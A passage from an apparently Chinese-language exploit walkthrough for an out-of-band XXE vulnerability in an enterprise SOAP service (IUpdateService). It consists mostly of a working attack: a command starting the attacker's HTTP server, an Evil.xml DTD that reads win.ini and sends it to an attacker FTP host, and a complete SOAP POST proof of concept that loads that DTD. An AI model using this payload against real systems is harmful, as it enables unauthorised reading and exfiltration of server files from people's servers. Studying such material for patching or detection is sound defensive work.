 <div align=center ><img width="800" src="https://user-images.githubusercontent.com/84888757/223007526-377dc534-07e6-4368-b1bb-363ceff52b2d.png" /></div>

### 2.3.2 攻击机开启一个http服务
```bash
python3 -m http.server 9999
```

这里放一个 `Evil.xml` ，用来放外部文件供漏洞处读取。
意思就是读取 `win.ini` 文件，并返回到 `FTP` 服务

📒 Evil.xml
```xml
<!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://192.168.50.100:2121/%file;'>">
%int;
%send;
```

<div align=center ><img width="600" src="https://user-images.githubusercontent.com/84888757/223007831-d55bdf34-2cca-4527-8457-95417165bc05.png" /></div>


### 2.3.3 构造 `poc` 去加载 `Evil.xml` 文件
```
POST /uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:getResult"
Content-Length: 442
Host: 192.168.50.13:8888
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService">
   <soapenv:Header/>
   <soapenv:Body>
      <iup:getResult>
         <!--Optional:-->
         <iup:string><![CDATA[
<!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://192.168.50.100:9999/Evil.xml">%aaa;%ccc;%ddd;]>
<xxx/>]]></iup:string>
      </iup:getResult>
   </soapenv:Body>
</soapenv:Envelope>
```

![image](https://user-images.githubusercontent.com/84888757/223010863-ae921670-d9a7-4829-9501-c456b05f943e.png)


### 2.3.4 查看FTP服务监听

![image](https://user-images.githubusercontent.com/84888757/223008020-11f51491-d8b8-4e2e-88ba-02d0808e29b1.png)
